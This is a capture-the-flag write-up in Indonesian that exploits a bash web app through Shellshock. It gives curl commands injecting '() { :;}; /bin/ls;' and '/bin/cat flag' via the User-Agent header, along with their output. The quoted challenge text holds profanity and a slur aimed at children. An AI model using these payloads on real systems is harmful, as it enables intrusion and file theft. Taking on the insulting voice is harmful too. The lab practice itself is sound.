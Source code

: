 Deskripsi soal: 

<pre>
"How did I end up here?" is the only question you can think of since you've become a high school teacher. 
Let's face it, you hate children. Bunch of egocentric retards. Anyway, you are not going to take it anymore. 
It's time to have your little midlife crisis right in the face of these fuckers.
Good thing that you're in the middle of some project days and these little dipshits wrote a simple message storing web application. 
How cute. It's written in bash... that's... that's... aw- no... bashful. 
You've got the source, you've got the skills. 0wn the shit out of this and show them who's b0ss.
</pre>

URL: https://school.fluxfingers.net:1503

Peserta diberikan soal dimana sebuah website dapat meng-handle Bash script. Sebenarnya kami tidak berhasil tepat waktu menyelesaikan tantangan yang satu ini, tetapi tidak ada salahnya kami membagikan cara penyelesaiannya.
<br />
Jadi, pada soal tantangan kali ini kami mencoba untuk melakukan command injection melalui header tepatnya pada sisi User-Agent. Kami menggunakan trigger exploit <b>Shellshock</b> untuk mengetes kerentanan apakah bash yang terdapat pada situs ini memiliki kerentanan akan serangan tersebut.
<br />
Kemudian , untuk mencoba trigger exploit tersebut kami menggunakan curl untuk menjalankan custom User-Agent yang sebelumnya sudah kami beri trigger exploitnya. Selanjutnya kami menjalankan perintah untuk melaksanakan directory listing dengan menggunakan command "ls"<br />
```bash
curl -A "() { :;}; /bin/ls;" https://school.fluxfingers.net:1503/?sessid=sessid_anda
```
Voila! terdapat beberapa file - file yang menarik disini, berarti ini menunjukkan trigger exploit tersebut berjalan dengan baik.
<pre>
404.sh
flag
home.html
home.sh
index.sh
</pre>
Terlihat file <b>flag</b> yang muncul dimana kami yakin itulah file yang menyimpan kalimat dari flag itu sendiri. Maka, perintah terakhir yang dijalankan ialah perintah "cat":
<br />
```bash
curl -A "() { :;}; /bin/cat flag;" https://school.fluxfingers.net:1503/?sessid=sessid_anda
```
<br />
Didapatkan flag: <b>flag{as_classic_as_it_could_be}</b>
